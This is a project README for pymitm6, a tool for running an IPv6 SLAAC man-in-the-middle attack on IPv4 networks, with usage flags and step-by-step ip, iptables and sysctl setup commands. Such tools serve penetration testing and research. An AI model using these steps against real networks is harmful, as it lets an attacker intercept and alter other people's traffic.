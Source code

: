 pymitm6
=======
                                           __                 ____    
                                        __/\ \__             /'___\   
             _____   __  __    ___ ___ /\_\ \ ,_\   ___ ___ /\ \__/   
            /\ '__`\/\ \/\ \ /' __` __`\/\ \ \ \/ /' __` __`\ \  _``\ 
            \ \ \L\ \ \ \_\ \/\ \/\ \/\ \ \ \ \ \_/\ \/\ \/\ \ \ \L\ \
             \ \ ,__/\/`____ \ \_\ \_\ \_\ \_\ \__\ \_\ \_\ \_\ \____/
              \ \ \/  `/___/> \/_/\/_/\/_/\/_/\/__/\/_/\/_/\/_/\/___/ 
               \ \_\     /\___/                                       
                \/_/     \/__/                                        



    Copyright (C) 2013 Karim Sudki [SCRT]

    Licensed under the GPL version 3.

    This application is an open source software for quick and easy implementation
    of IPv6 Man-In-The-Middle attack on IPv4 networks, known as "SLAAC attack".

    Translation between IPv6 and IPv4 networks is acheived using NAT64 algorithm.
    
    To allow packets to be modified, the infamous TUN interface has been used.

    Example of use :
     ______________             _______________________             _____________
    |              |           |                       |           |            |
    | Dual stacked |__IPV6 ____| ETH0 --- TUN --- ETH0 |__IPV4 ____|    IPV4    |
    |     Host     |    COMM   |                       |    COMM   |   Network  |
    |______________|           |_______________________|           |____________|

         TARGET                         HACKER                          WORLD


####[Features]###################################################################
    
    now()
    - Targets selection
    - Support custom DNS record from csv file, reload possible while running
    - Resolution and display of hosts MAC addresses for easy recognition
    - Terminal interface

    next()

    - Raguard evasion
    - Plugins integration
    - Graphical interface


####[Pre-requisites]#############################################################
    
    - Python 2.x
    - iproute2
    - iptables
    

####[Usage]######################################################################

    usage: pymitm6.py [-h] [-c DNS_FILE] [-int PHY_INT] [-dns4 DNS_V4]
                      [-dns6 DNS_V6] [-good GOOD_PREFIX] [-bad BAD_PREFIX]
                      [-pool IP_POOL] -tun TUN_NAME -u USER[--mktun]

    optional arguments:
      -h, --help         show this help message and exit
      -c DNS_FILE        DNS file (comma separated)
      -int PHY_INT       Physical Interface Name
      -dns4 DNS_V4       IPv4 DNS Server
      -dns6 DNS_V6       IPv6 DNS Proxy
      -good GOOD_PREFIX  GOOD prefix (CIDR)
      -bad BAD_PREFIX    BAD prefix (CIDR)
      -pool IP_POOL      IPv4 pool for NAT64 (CIDR)
      -tun TUN_NAME      TUN Interface Name
      -u USER            Running user
      --mktun            Create TUN interface


    0 - Flush previous configuration

    # ip link delete [TUN_NAME]
    # iptables -F
    # ip6tables -F

    1 - Create TUN interface :

    # pymitm6.py -u [USER] -tun [TUN_NAME] --mktun

    2 - Configure all interfaces :

    [PHY_INT]

    # ip addr add [DNS_V6]/[PREFIX_LEN] dev [PHY_INT]
    
    [TUN_NAME]

    # ip link set [TUN_NAME] up
    # ip addr add [BAD_PREFIX_IP] dev [TUN_NAME]
    # ip addr add [POOL_IP] dev [TUN_NAME]
    # ip route add [POOL] dev [TUN_NAME]
    # ip route add [BAD_PREFIX]/[PREFIX_LEN] dev [TUN_NAME]

    3 - Configure iptables :
    
    # iptables -t nat -A POSTROUTING -o [PHY_INT] -j MASQUERADE
    # ip6tables -A OUTPUT -p icmpv6 --icmpv6-type destination-unreachable -j DROP
    # ip6tables -A OUTPUT -p icmpv6 --icmpv6-type router-solicitation -j DROP

    4 - Configure forwading :

    # sysctl -w net.ipv4.conf.all.forwarding=1
    # sysctl -w net.ipv6.conf.all.forwarding=1

    5 - Run the program (example) :

    # pymitm6.py -bad 2001:6f8:608:ace::/64   \
                 -good 2001:6f8:608:fab::/64  \
                 -dns4 8.8.8.8                \
                 -dns6 2001:6f8:608:fab::2    \
                 -tun nat64                   \
                 -int eth0                    \
                 -pool 192.168.100.0/24       \
                 -u root

####[Script]#####################################################################

13.01.2016      Bash script automating above procedure
                1. configure variables
                2. chmod +x command.sh && sudo ./command.sh
